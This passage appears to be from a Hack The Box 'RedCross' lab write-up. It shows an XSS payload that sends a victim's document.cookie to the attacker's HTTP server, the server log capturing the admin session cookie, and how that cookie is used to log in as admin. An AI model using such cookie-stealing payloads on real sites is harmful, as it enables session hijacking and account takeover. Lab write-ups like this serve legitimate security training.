To test the XSS, we'll try a very simple payload that'll create an image on the page pointing to our attacker machine. The request will contain the `document.cookie` which hopefully contains the session cookie.

Payload: `<script>var myimg = new Image(); myimg.src = 'http://10.10.14.23/q?=' + document.cookie;</script>`

After a minute or so, we can see an incoming HTTP request made to our webserver, containg the admin session cookie:

```
root@ragingunicorn:~# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.113 - - [11/Nov/2018 12:00:47] code 404, message File not found
10.10.10.113 - - [11/Nov/2018 12:00:47] "GET /q?=PHPSESSID=8e2u3570ceoa9vk2vofvgnibv3;%20LANG=EN_US;%20SINCE=1541955270;%20LIMIT=10;%20DOMAIN=admin HTTP/1.1" 404 -
```

Using Firefox's web developer tools, we can simply change the cookies and add all four values into our session, then hit refresh on the main page to log in as admin.

![](/assets/images/htb-writeup-redcross/redcross_admincookie.png)

### SQL injection on the web messaging app
